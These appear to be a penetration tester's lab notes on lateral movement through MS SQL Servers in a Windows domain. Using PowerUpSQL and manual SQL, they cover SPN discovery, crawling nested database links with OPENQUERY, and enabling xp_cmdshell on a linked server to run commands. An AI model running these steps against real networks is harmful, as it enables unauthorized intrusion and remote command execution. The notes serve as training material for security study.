 MS SQL servers are generally deployed in plenty in a Windows domain

SQL Servers provide very good options for lateral movement as domain users can be mapped to database roles.

#### [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)

###### Discovery (SPN Scanning) - find all mssql SPNs (default for mssql servers)
```powershell
Get-SQLInstanceDomain
```

###### Check Accessibility 
```powershell
Get-SQLConnectionTestThreaded

Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```

###### Gather Information
```powershell
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

>**Note:** Review `ServiceName`, `AuthenticationMode`, `IsSysadmin` and `ActiveSessions`
#### Database Links
A database link allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources. In case of database links between SQL servers, that is, linked SQL servers it is possible to execute stored procedures

> **Note**: Database links work even across forest trusts. **Forest security boundaries can't even stop it**

[^1]![[Pasted image 20250521200749.png]]
###### Search for Database Links
```powershell
Get-SQLServerLink -Instance dcorp-mssql -Verbose
```

![[Pasted image 20250521201158.png]]


 Manual
```sql
select * from master..sysservers
```

###### Enumerating Database Links 
Jesus lol
```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Verbose
```

![[Pasted image 20250521201531.png]]

Manual - The `Openquery()` function can be used to run queries on a linked database
```sql
select * from openquery("dcorp-sql1",'select * from master..sysservers')
```

Manual - `Openquery()` queries can be chained to access links within links (nested
links)
```sql
select * from openquery("dcorp-sql1",'select * from openquery("dcorp-mgmt",''select * from master..sysservers'')')
```

###### Executing Commands
> **Important:** If `rpcout` is enabled (disabled by default), `xp_cmdshell` can be enabled >

```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "execmaster..xp_cmdshell 'whoami'" -QueryTarget eu-sql
```

Manual
```sql
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "eu-sql"
```

[^1]: Public on A... run stored procedures on B and C due to links

